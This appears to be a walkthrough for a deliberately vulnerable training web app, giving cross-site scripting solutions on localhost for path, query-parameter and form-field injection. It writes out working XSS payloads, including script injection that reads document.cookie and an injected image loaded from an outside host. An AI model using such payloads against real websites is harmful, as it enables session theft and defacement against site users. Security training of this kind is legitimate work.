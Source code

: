 Craft some javascript that will close the string we're injecting into, change
the title, and absorb the remainder of the string that we're injecting into:

    ";document.title="PLZ%20HACK%20MY%20USERS";"

Then change the URL:

    http://localhost:8000/cross-site-scripting/path-matching/";document.title="PLZ%20HACK%20MY%20USERS";"

The solution is available live in the app after you've tried it.


## A3: Cross Site Scripting - Query Parameters

Start with the URL:

    http://localhost:8000/cross-site-scripting/query-params?qs=awesome

Create a replacement for the qs parameter using an interactive Python shell (or
your favorite way to urlencode data):

    from urllib.parse import quote
    s = '''";var i=document.createElement('img');''' +\
        '''i.src='http://test/image.jpg';''' +\
        '''i.setAttribute('display', 'none');''' +\
        '''document.body.appendChild(i);"'''
    quote(s)

For Python 2, change the first line of that to:

    from urllib import quote

The triple quoting is important here so that the single and double quotes
within the string are handled correctly.

Take the encoded value and use it as the qs parameter:

    http://localhost:8000/cross-site-scripting/query-params?qs=%22%3Bvar%20i%3Ddocument.createElement%28%27img%27%29%3Bi.src%3D%27http%3A//test/image.jpg%27%3Bdocument.body.appendChild%28i%29%3B%22

The solution is live in the app after you've tried it.


## A3: Cross Site Scripting - Form Field Injection

It used to be possible to submit values like:

    "><script>...</script><"

Or, to add attributes onto the input tag:

    " onclick="..." "

You might try something like this:

    http://localhost:8000/cross-site-scripting/form-field?qs=hello%22%3E%3Cscript%3Edocument.getElementById%28%27cookie%27%29.innerHTML%253Ddocument.cookie%253B%3C/script%3E%3Ca%20name%3D%22">/cross-site-scripting/form-field?qs=hello%22%3E%3Cscript%3Edocument.getElementById%28%27cookie%27%29.innerHTML%253Ddocument.cookie%253B%3C/script%3E%3Ca%20name%3D%22
